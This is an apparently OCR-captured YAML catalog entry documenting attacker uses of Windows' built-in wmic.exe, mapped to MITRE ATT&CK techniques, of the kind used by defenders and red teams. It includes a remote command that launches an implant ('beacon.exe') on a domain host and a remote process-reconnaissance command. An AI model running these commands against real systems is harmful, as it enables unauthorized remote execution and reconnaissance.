 ```yaml
---
Name: wmic.exe
Description: Command-line interface for Windows Management Instrumentation (WMI)
Updated: 2023-07-01
Toolsets:
  - Builtin
Commands:
  - Command: 'wmic.exe /node:W10.ad.bitsadmin.com process call create "beacon.exe"'
    Description: Launch process
    Usecases:
      - Launch implant
    Function: Execute
    Comments:
    MitreAttack:
      - T1047
  - Command: 'wmic.exe /node:W10.ad.bitsadmin.com /output:processes.csv process list /format:CSV'
    Description: Query processes
    Usecases:
      - Reconnaissance on running processes
    Function: Processes
    Comments:
    MitreAttack:
      - T1057
      - T1047
Resources:
Detections:
Contributors:
    - Name: Arris Huijgen
      Handle: bitsadmin
---
```

